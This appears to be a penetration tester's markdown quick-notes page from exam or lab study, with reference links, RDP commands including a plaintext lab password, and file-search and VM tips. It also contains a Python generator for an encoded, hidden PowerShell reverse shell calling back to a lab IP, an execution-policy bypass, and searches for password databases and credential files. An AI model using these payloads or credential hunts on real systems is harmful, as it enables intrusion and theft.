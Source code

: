 ## Quick Notes

## Links

- [Payload All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [Markdown Reference](https://wordpress.com/support/markdown-quick-reference/)
- [Report Maker](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown/tree/master)
### Random things 

### Remote Desktop Specific

```
xfreerdp /cert-ignore /compression /auto-reconnect /u:dmzadmin /p:SlimGodhoodMope /v:192.168.188.191 /w:1600 /h:800 

rdesktop -z -P -x m -u dmzadmin -p SlimGodhoodMope 192.168.188.191 -r 

```

### Powershell Bypass Policy
```
Do this to run powershell:
powershell -ExecutionPolicy Bypass -File GetCLSID.ps1
```
### Kill a Process
```

To kill a port process on windows:

netstat -ano | findstr :<PORT>
taskkill /PID <PID> /F

To kill a port process on Kali:

sudo fuser -k 81/udp
```

### Find Things
```

To find things:

locate something
find / -name exact_name>/dev/null
find /home -name *.jpg

-O1 – (Default) filter based on file name first
-O2 – File name first, then file-type
-O3 – Allow find to automatically re-order the search based on efficient use of resources and likelihood of success
-maxdepth X – Search this directory along with all sub-directories to a level of X
-iname – Search while ignoring text case.
-not – Only produce results that don’t match the test case
-type f – Look for files
-type d – Look for directories


To search for text within files:
grep mail /etc/passwd


On Windows:

Get-ChildItem -Path C:\ -Include *.kdbx* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *proof.txt* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *password* -File -Recurse -ErrorAction SilentlyContinue

FINDSTR /i /r /c:"hello.*goodbye" /c:"goodbye.*hello" Demo.txt

FIND [SWITCH] "String" [Pathname/s]

1. /v – This switch will show any lines that don’t contain the string of words you specified.
2. /c – This switch tells the find tool to count how many lines contain your search terms.
3. /n – This switch shows the numbers that correspond with the lines.
4. /i – This switch tells find to ignore the case of text you are searching for.
```


### Fix Kali Copy Paste Issue
```
Kali VM Fix Copy/Paste:

1. `sudo apt-get autoremove open-vm-tools`
2. Install VMware Tools by following the usual method (`Virtual Machine --> Reinstall VMWare Tools`)
3. Reboot the VM
4. `sudo apt-get install open-vm-tools-desktop`
5. Reboot the VM, after the reboot copy/paste and drag/drop will work!



Quick Python Powershell Reverse Shell generator
---

import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```


### Show Tun0 IP Toolbar

```
sudo apt install xfce4-genmon-plugin

Generic Monitor -> Properties

/opt/showtun0ip.sh

---
ADDR=$(ip addr | grep tun0|grep inet|awk '{print $2}'|cut -d "/" -f 1)
echo "$ADDR" | sed 's/$/ /g'


```